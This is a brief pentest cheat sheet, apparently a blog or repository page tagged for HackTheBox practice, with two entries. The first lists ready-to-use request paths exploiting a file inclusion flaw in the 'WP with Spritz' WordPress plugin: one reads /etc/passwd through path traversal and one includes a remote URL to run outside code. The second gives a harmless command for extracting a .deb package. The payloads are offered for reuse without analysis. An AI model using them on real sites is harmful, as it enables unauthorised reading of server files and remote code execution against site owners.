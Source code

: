 ```yaml
---
title: "Weird Cheat Sheets"
categories:
  - Pentest
  - Ethical Hacking
tags:
  - HTB
  - Cheatsheets
  - Pentest
  - Windows
  - Linux
  - Random stuff
---
```



# Lets glow 🚀
WordPress Plugin WP with Spritz 1.0 LFI
```
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```

Extract the files inside .deb package without installing them in the newfolder that we created
```
mkdir newfolder
dpkg-deb -xv debfile.deb newfolder
```
